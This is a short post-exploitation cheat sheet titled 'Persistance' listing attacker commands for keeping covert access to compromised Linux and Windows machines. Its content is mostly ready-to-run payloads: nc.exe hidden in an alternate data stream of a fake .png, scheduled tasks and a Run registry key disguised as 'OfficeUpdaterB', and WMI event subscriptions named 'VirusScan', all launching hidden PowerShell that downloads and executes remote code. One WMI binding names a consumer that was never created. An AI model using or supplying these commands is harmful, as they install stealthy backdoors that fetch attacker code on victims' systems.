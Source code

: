 ```yaml
---
title: Persistance
category: Post-Exploitation
order: 101
---
```


>**Linux**

<code>setsid *command*</code>

>**Windows**

ADS and Scheduled Task (user level) |  <code> type c:\tools\nc.exe > c:\nice.png:nc.exe  </code>
ADS and Scheduled Task (user level) |  <code> start c:\nice.png:nc.exe  </code>
ADS and Scheduled Task (user level) |  <code> start c:\nice.png:nc.exe  </code>
Schduled Task | <code> schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''[]'''))'" /sc onstart /ru System </code>
Scheduled Task | <code> schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''https://website/page'''))'" /sc daily /st 12:53 </code>
Run Key | <code> REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "OfficeUpdaterB" /t REG_SZ /F /D "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c \"IEX ((new-object net.webclient).downloadstring('https://website/page'))\"" </code>



WMI Persistence:
<code> 
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="VirusScan", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'" 
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="VirusScan", CommandLineTemplate="powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://URL.com/file'))\""
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"VirusScan\"", Consumer="CommandLineEventConsumer.Name=\"PushVirusScan\""
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET __RELPATH /FORMAT:list
</code>

* http://pwnwiki.io/#!persistence/windows/index.md
